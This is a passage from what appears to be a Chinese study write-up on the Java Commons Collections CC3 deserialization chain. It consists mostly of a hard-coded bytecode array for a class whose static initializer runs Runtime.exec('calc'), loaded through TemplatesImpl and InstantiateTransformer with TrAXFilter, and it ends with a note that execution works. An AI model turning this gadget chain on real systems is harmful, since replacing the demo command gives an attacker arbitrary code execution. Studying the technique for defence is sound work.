7,110,47,111,114,103,47,97,112,97,99,104,101,47,120,109,108,47,105,110,116,101,114,110,97,108,47,100,116,109,47,68,84,77,65,120,105,115,73,116,101,114,97,116,111,114,59,76,99,111,109,47,115,117,110,47,111,114,103,47,97,112,97,99,104,101,47,120,109,108,47,105,110,116,101,114,110,97,108,47,115,101,114,105,97,108,105,122,101,114,47,83,101,114,105,97,108,105,122,97,116,105,111,110,72,97,110,100,108,101,114,59,41,86,1,0,8,105,116,101,114,97,116,111,114,1,0,53,76,99,111,109,47,115,117,110,47,111,114,103,47,97,112,97,99,104,101,47,120,109,108,47,105,110,116,101,114,110,97,108,47,100,116,109,47,68,84,77,65,120,105,115,73,116,101,114,97,116,111,114,59,1,0,7,104,97,110,100,108,101,114,1,0,65,76,99,111,109,47,115,117,110,47,111,114,103,47,97,112,97,99,104,101,47,120,109,108,47,105,110,116,101,114,110,97,108,47,115,101,114,105,97,108,105,122,101,114,47,83,101,114,105,97,108,105,122,97,116,105,111,110,72,97,110,100,108,101,114,59,1,0,8,60,99,108,105,110,105,116,62,1,0,1,101,1,0,21,76,106,97,118,97,47,105,111,47,73,79,69,120,99,101,112,116,105,111,110,59,1,0,13,83,116,97,99,107,77,97,112,84,97,98,108,101,7,0,41,1,0,10,83,111,117,114,99,101,70,105,108,101,1,0,9,84,101,115,116,46,106,97,118,97,12,0,9,0,10,7,0,46,12,0,47,0,48,1,0,4,99,97,108,99,12,0,49,0,50,1,0,19,106,97,118,97,47,105,111,47,73,79,69,120,99,101,112,116,105,111,110,12,0,51,0,10,1,0,18,99,111,109,47,99,111,109,109,111,110,47,99,99,47,84,101,115,116,1,0,64,99,111,109,47,115,117,110,47,111,114,103,47,97,112,97,99,104,101,47,120,97,108,97,110,47,105,110,116,101,114,110,97,108,47,120,115,108,116,99,47,114,117,110,116,105,109,101,47,65,98,115,116,114,97,99,116,84,114,97,110,115,108,101,116,1,0,57,99,111,109,47,115,117,110,47,111,114,103,47,97,112,97,99,104,101,47,120,97,108,97,110,47,105,110,116,101,114,110,97,108,47,120,115,108,116,99,47,84,114,97,110,115,108,101,116,69,120,99,101,112,116,105,111,110,1,0,17,106,97,118,97,47,108,97,110,103,47,82,117,110,116,105,109,101,1,0,10,103,101,116,82,117,110,116,105,109,101,1,0,21,40,41,76,106,97,118,97,47,108,97,110,103,47,82,117,110,116,105,109,101,59,1,0,4,101,120,101,99,1,0,39,40,76,106,97,118,97,47,108,97,110,103,47,83,116,114,105,110,103,59,41,76,106,97,118,97,47,108,97,110,103,47,80,114,111,99,101,115,115,59,1,0,15,112,114,105,110,116,83,116,97,99,107,84,114,97,99,101,0,33,0,7,0,8,0,0,0,0,0,4,0,1,0,9,0,10,0,1,0,11,0,0,0,47,0,1,0,1,0,0,0,5,42,-73,0,1,-79,0,0,0,2,0,12,0,0,0,6,0,1,0,0,0,11,0,13,0,0,0,12,0,1,0,0,0,5,0,14,0,15,0,0,0,1,0,16,0,17,0,2,0,11,0,0,0,63,0,0,0,3,0,0,0,1,-79,0,0,0,2,0,12,0,0,0,6,0,1,0,0,0,23,0,13,0,0,0,32,0,3,0,0,0,1,0,14,0,15,0,0,0,0,0,1,0,18,0,19,0,1,0,0,0,1,0,20,0,21,0,2,0,22,0,0,0,4,0,1,0,23,0,1,0,16,0,24,0,2,0,11,0,0,0,73,0,0,0,4,0,0,0,1,-79,0,0,0,2,0,12,0,0,0,6,0,1,0,0,0,28,0,13,0,0,0,42,0,4,0,0,0,1,0,14,0,15,0,0,0,0,0,1,0,18,0,19,0,1,0,0,0,1,0,25,0,26,0,2,0,0,0,1,0,27,0,28,0,3,0,22,0,0,0,4,0,1,0,23,0,8,0,29,0,10,0,1,0,11,0,0,0,97,0,2,0,1,0,0,0,18,-72,0,2,18,3,-74,0,4,87,-89,0,8,75,42,-74,0,6,-79,0,1,0,0,0,9,0,12,0,5,0,3,0,12,0,0,0,22,0,5,0,0,0,14,0,9,0,17,0,12,0,15,0,13,0,16,0,17,0,18,0,13,0,0,0,12,0,1,0,13,0,4,0,30,0,31,0,0,0,32,0,0,0,7,0,2,76,7,0,33,4,0,1,0,34,0,0,0,2,0,35};
        byte[][] codes = {code};
        bytecodesField.set(templates, codes);
        Field tfactoryField = cc3.getDeclaredField("_tfactory");
        tfactoryField.setAccessible(true);
        tfactoryField.set(templates, new TransformerFactoryImpl());
        InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates});
        instantiateTransformer.transform(TrAXFilter.class);
    }
}
```

执行没问题

